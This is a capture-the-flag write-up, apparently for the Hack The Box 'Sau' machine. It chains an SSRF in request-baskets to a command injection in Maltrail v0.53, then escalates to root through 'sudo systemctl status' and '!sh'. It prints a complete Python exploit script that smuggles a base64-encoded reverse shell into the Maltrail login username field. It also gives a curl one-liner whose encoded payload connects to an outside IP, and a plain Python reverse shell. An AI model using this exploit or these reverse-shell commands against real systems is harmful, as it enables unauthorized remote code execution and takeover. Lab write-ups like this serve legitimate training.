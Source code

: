 First what we need to do is some recon, turn on the nmap and check what's kind of port is running on the server.
```
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
55555/tcp open  unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Sun, 08 Oct 2023 14:14:58 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Sun, 08 Oct 2023 14:14:27 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Sun, 08 Oct 2023 14:14:28 GMT
|_    Content-Length: 0
```
We can see SSH and port 55555 unknow, i can't find anything intresting about this port and i decid to do dir search.
```
/@                    (Status: 400) [Size: 75]
/~administrator       (Status: 400) [Size: 75]
/~admin               (Status: 400) [Size: 75]
/~adm                 (Status: 400) [Size: 75]
/~ftp                 (Status: 400) [Size: 75]
/~httpd               (Status: 400) [Size: 75]
/~apache              (Status: 400) [Size: 75]
/~logs                (Status: 400) [Size: 75]
/~amanda              (Status: 400) [Size: 75]
/~bin                 (Status: 400) [Size: 75]
/~log                 (Status: 400) [Size: 75]
/~guest               (Status: 400) [Size: 75]
/~http                (Status: 400) [Size: 75]
/~sys                 (Status: 400) [Size: 75]
/~sysadmin            (Status: 400) [Size: 75]
/~root                (Status: 400) [Size: 75]
/~lp                  (Status: 400) [Size: 75]
/~sysadm              (Status: 400) [Size: 75]
/~nobody              (Status: 400) [Size: 75]
/~mail                (Status: 400) [Size: 75]
/~operator            (Status: 400) [Size: 75]
/~tmp                 (Status: 400) [Size: 75]
/~webmaster           (Status: 400) [Size: 75]
/~test                (Status: 400) [Size: 75]
/~www                 (Status: 400) [Size: 75]
/~user                (Status: 400) [Size: 75]
/baskets              (Status: 401) [Size: 0]
/Documents and Settings (Status: 400) [Size: 75]
/lost+found           (Status: 400) [Size: 75]
/Program Files        (Status: 400) [Size: 75]
/reports list         (Status: 400) [Size: 75]
/web                  (Status: 200) [Size: 8700]
```
Many ports have status 400, but only have 200, let's check what there. We can see there New Basket. and below is the version, let's maybe we will find some quickly vuln, this apllication is vulneability on SSRF, let's it. First what we need to do is Create a basket. 

![obraz](https://github.com/Anogota/Sau/assets/143951834/56a219a4-b2ef-4a34-a35b-77edeee7633b)

Then open Configuration Settings and wrote in Forward URL: ```http://127.0.0.1:80/``` i tested some ports, i read somewhere about this and there was port 8080, but this doesn't work, beacuase i can't see prot 80 i decide to check it, and it work's but rember to tick ```Proxy Response``` with out this u will don't get a SSRF on this port local port.

![obraz](https://github.com/Anogota/Sau/assets/143951834/175e0cc7-2b8f-4e38-a214-7f5104262b08)

And we got access into port 80, this is powered by by Maltrail (v0.53) let's also search something about this vuln. 
I found the code, this help us the get a reverse-shell first what we need to do is turn on the ```nc -lvnp 9001```
```
#!/bin/python3

import sys
import os
import base64

# Arguments to be passed
YOUR_IP = sys.argv[1]  # <your ip>
YOUR_PORT = sys.argv[2]  # <your port>
TARGET_URL = sys.argv[3]  # <target url>

print("\n[+]Started MailTrail version 0.53 Exploit")

# Fail-safe for arguments
if len(sys.argv) != 4:
    print("Usage: python3 mailtrail.py <your ip> <your port> <target url>")
    sys.exit(-1)


# Exploit the vulnerbility
def exploit(my_ip, my_port, target_url):
    # Defining python3 reverse shell payload
    payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''
    # Encoding the payload with base64 encoding
    encoded_payload = base64.b64encode(payload.encode()).decode()
    # curl command that is to be executed on our system to exploit mailtrail
    command = f"curl '{target_url}/login' --data 'username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`'"
    # Executing it
    os.system(command)


print("\n[+]Exploiting MailTrail on {}".format(str(TARGET_URL)))
try:
    exploit(YOUR_IP, YOUR_PORT, TARGET_URL)
    print("\n[+] Successfully Exploited")
    print("\n[+] Check your Reverse Shell Listener")
except:
    print("\n[!] An Error has occured. Try again!")
```
Wrote in your terminal ```python3 exploit.py 10.10.16.6 9001 http://10.10.11.224:55555/htb1```
And you got a access, but in lab is secend way to get a reverse-shell
```curl 'http://34.124.197.100:8338/login' \  --data 'username=;`echo cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjU0LjIxMS42NC45NiIsMTIzNCkpO29zLmR1cDIocy5maWxlbm8oKSwwKTsgb3MuZHVwMihzLmZpbGVubygpLDEpO29zLmR1cDIocy5maWxlbm8oKSwyKTtpbXBvcnQgcHR5OyBwdHkuc3Bhd24oInNoIikn|base64 -d|bash`'```
In this base64 is encode python reverse-shell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.6",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```
Change your IP and PORT and encode this in Base64 also rember to turn on the netcat.
By this curl you can get a reverse shell. Now when you have a user, let's try to get a root, first what you need to do is sudo -l 
```
/usr/bin/systemctl status.trial.service
```
I google it and this what i found.
First you need to insert in reverse-shell 
``` sudo /usr/bin/systemctl status.trial.service ```
Then write !sh and you got the root.
Thank You!
